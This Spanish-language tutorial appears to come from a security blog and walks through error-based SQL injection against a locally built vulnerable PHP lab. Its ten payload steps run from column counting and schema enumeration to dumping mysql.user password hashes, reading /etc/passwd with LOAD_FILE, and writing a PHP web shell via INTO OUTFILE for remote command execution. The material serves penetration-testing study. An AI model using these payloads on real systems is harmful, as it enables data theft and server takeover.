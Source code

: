 ```yaml
---
title:  "SQL Injection to RCE"
categories: 
  - Vulnerabilidades
tags:
  - Windows
  - Linux
  - OSCP
  - SQLi
  - RCE
  - eCPPT
toc: true
toc_label: "Tabla de contenido"
---
```


En el presente artículo estaré mostrando como podemos abusar de una inyección **`SQL`** basada en **error** para poder enumerar información sensible de las bases de datos con las que cuenta el servicio web y finalmente obtener ejecución remota de comandos **`(RCE)`** en 10 pasos.

## ¿Por qué sucede?

Una inyección **`SQL`** ocurre cuando la entrada del usuario se ingresa en la cadena de consulta **`SQL`** sin desinfectar o filtrar adecuadamente la entrada.

## Laboratorio

Para poder configurar su laboratorio deberá realizar lo siguiente:

1. Crear la carpeta **`SQL`** en **`/var/www/html/`**.
2. Asignar permisos de escritura a otros a la carpeta **`SQL`** **`(chmod o+w SQL)`**
3. Descargar el [proyecto](https://github.com/hacknotes/h4ckn0tes/tree/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico).
5. Iniciar el servicio **mysql** **`(sudo service mysql start)`**
5. Iniciar un servicio **web** **`(sudo service apache2 start)`**
6. seguir los pasos que se indican en [sistema.sql](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico/sistema.sql)
7. Modificar el fichero [conexion.php](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico/conexion.php) con los datos del fichero [sistema.sql](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico/sistema.sql), solo si es necesario.

Una vez realizado todos los pasos nos podremos dirigir a **`http://localhost/SQL/`** y ahí podremos registrar nuevos usuarios.

![Panel principal](/assets/images/SQLi2RCE/panelPrincipal.png)

**NOTA:** Para realizar este ejercicio nos guiaremos del siguiente [cheatsheet](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/errorBased.md).
{: .notice--danger}

## Explotación

Como había mencionado con anterioridad necesitaremos de 10 pasos para lograr extraer información y obtener RCE.

### 1. Error de sintaxis
En este paso trataremos de buscar en que punto podemos ocasionar un error de sintaxis con caracteres como: **`' ) ; , "`**.
	
```sql
http://localhost/SQL/search.php?name_search='
```
![Error de syntaxis](/assets/images/SQLi2RCE/syntaxError.png)

### 2. Número de columnas
Para este paso una vez que se sabe donde ocurre un error de sintaxis, deberemos enumerar la cantidad de columnas con las que cuenta la base de datos actual, esto lo podremos lograr con la cláusula **`ORDER BY`** y pasándole un número hasta dejar de obtener un error **`(Unknow column)`**.

```sql
http://localhost/SQL/search.php?name_search=' ORDER BY 100-- -
```
```sql
http://localhost/SQL/search.php?name_search=' ORDER BY 4-- -
```
![Numero de columnas](/assets/images/SQLi2RCE/enumColumns.png)

Vemos que al momento de indicarle el número **`4`** el error deja de presentarse y nos muestra la tabla de usuarios.

### 3. Versión de la base de datos
Es necesario saber con qué versión de base de datos se está trabajando para poder orientar nuestras consultas **`SQLi`** de mejor manera, incluso ver si la versión es vulnerable a algún exploit público.

Esto lo podremos realizar con la cláusula **`UNION`** e indicándole **`@@version`** tomando en cuenta el número de columnas encontradas con anterioridad, ya que si **`no`** le pasamos el mismo número de columnas en nuestra consulta tendremos un error.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,@@version,NULL-- - 
```
```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,@@version,NULL,NULL-- -
```
![Version](/assets/images/SQLi2RCE/version.png)

### 4. Extraer todas las bases de datos en el sistema
Ya en este punto podemos listar **`todas`** las bases de datos que contiene el servicio web. Esto lo podemos lograr abusando de la base de datos **`INFORMATION_SCHEMA`** la cual contiene metadatos sobre todas las base de datos y sus tablas presentes en el servidor.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,SCHEMA_NAME,NULL,NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
![Base de datos](/assets/images/SQLi2RCE/bd.png)

### 5. Enumerar la base de datos actual
Es importante saber con qué base de datos se está trabajando para poder decidir si vale la pena seguirla enumerando o tal vez saltar a otras.

Para enumerar la base de datos actual usaremos **`database()`**.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,database(),NULL,NULL-- -
```
![Base de datos actual](/assets/images/SQLi2RCE/actualBD.png)

### 6. Enumerar las tablas
Como ya sabemos que base de datos es la actual, ahora podríamos enumerar las tablas con las que esta cuenta, para realizarlo nuevamente nos aprovecharemos de `INFORMATION_SCHEMA`.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,table_name,NULL,NULL FROM INFORMATION_SCHEMA.tables WHERE table_schema="sistema"-- -
```
![Base de datos actual](/assets/images/SQLi2RCE/tabla.png)

### 7. Enumerar las columnas
En este punto ya tenemos el nombre de la base actual `(sistema)`, el nombre de la tabla `(datos)`, por lo cual lo que sigue es saber con qué columnas cuenta nuestra tabla.

Nuevamente, nos aprovecharemos de `INFORMATION_SCHEMA`.

```sql
localhost/SQL/search.php?name_search=' UNION SELECT NULL,column_name,NULL,NULL FROM INFORMATION_SCHEMA.columns WHERE table_schema="sistema" AND table_name="datos"-- -
``` 
![Columnas](/assets/images/SQLi2RCE/columnas.png)

El siguiente paso será obtener los datos, pero si notamos en la imagen las columnas que obtuvimos son las mismas que ya muestran el sitio web, así que no obtendríamos más información de la que estamos viendo en esta base de datos, por lo cual podríamos enumerar una base de datos diferente, para lo cual repetiré el paso 6 y 7 nuevamente con una base de datos distinta.
{: .notice--danger}

Si recordamos en el [paso 4](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#4-extraer-todas-las-base-de-datos-en-el-sistema) aparte de listar la base de datos `sistema`, también se nos mostraba otras, para este caso yo enumerare la base de datos `mysql`.

- Enumerar las tablas de la base de datos mysql

  Para realizar esta acción repetiremos el paso [6](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#6-enumerar-las-tablas) pero cambiando los datos.

  ```sql
  http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,table_name,NULL,NULL FROM INFORMATION_SCHEMA.tables WHERE table_schema="mysql"-- -
  ```
  ![Tablas de mysql](/assets/images/SQLi2RCE/mysqlTables.png)

  Ya que sabemos las tablas de la base de datos `mysql`, procederé a enumerar una de ellas en este caso la tabla `user`.

- Enumerar las columnas de la tabla `user` de la base de datos `mysql`

  Para realizar esta acción repetiremos el paso [7](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#7-enumerar-las-columnas) pero cambiando los datos.

  ```sql
  http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,column_name,NULL,NULL from INFORMATION_SCHEMA.columns WHERE table_schema="mysql" AND table_name="user"-- -
  ```

  ![Columnas de mysql](/assets/images/SQLi2RCE/mysqlColumns.png)

### 8. Extraer los datos

Ya en este punto nada más nos hace falta extraer los datos, lo cual podemos realizarlo con la siguiente consulta respetando el número de columnas con las que cuenta la tabla de la actual base de datos **`sistema`**.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,concat(User,0x3a,Password),NULL,NULL FROM mysql.user-- -
```
![Datos](/assets/images/SQLi2RCE/data.png)

Podemos notar que obtenemos lo solicitado en nuestra consulta `(User,Password)`, con esta información podríamos hacer uso de herramientas como `hashid` para saber el tipo de `hash` y `hashcat` para intentarlo romper.

**NOTA:** Sabemos de antemano que estos datos pertenecen a los creados a la hora de crear nuestro [laboratorio](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#laboratorio).
{: .notice--danger}

**NOTA:** Recordemos que ahora estamos realizando la consulta bajo la base de datos `mysql`.
{: .notice--danger}

### 9. Lectura de archivos

Otra cosa muy importante a probar cuando encontramos una `inyección SQL` es probar si somos capaces de leer ficheros alojados en el sistema. Esto podríamos lograrlo con `LOAD_FILE()`.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,LOAD_FILE("/etc/passwd"),NULL,NULL-- -
```

![passwd](/assets/images/SQLi2RCE/readFile.png)

### 10. Escritura de archivos

Finalmente probaremos si tenemos permisos de escritura sobre el sistema. Lo podríamos hacer con `INTO OUTFILE()`.

Con la siguiente línea estamos escribiendo una sentencia `php` que nos permita ejecutar cualquier comando sobre el sistema por medio del parámetro `cmd`.

```sql
http://localhost/SQL/search.php?name_search=' union select "NULL",("<?php system($_GET['cmd']) ?>"),"NULL","NULL" INTO OUTFILE "/var/www/html/SQL/shell.php"-- -
```
Si no tenemos ningún error y sobre todo si contamos con permisos de escritura sobre la ruta en la cual estamos depositando nuestro fichero el sitio web no debería mostrar nada como podemos observar a continuación.

![Escribir archivo](/assets/images/SQLi2RCE/writeFile.png)

Una vez ejecutado lo anterior nos podremos dirigir a la ruta donde alojamos nuestro fichero para poder ejecutar comandos.

```sql
view-source:http://localhost/SQL/shell.php?cmd=ls -la
```

![rce](/assets/images/SQLi2RCE/rce.png)

**NOTA:** Ahora que ya somos capaces de ejecutar cualquier comando sobre el sistema recuerden que se podría obtener una conexión inversa.
{: .notice--danger}

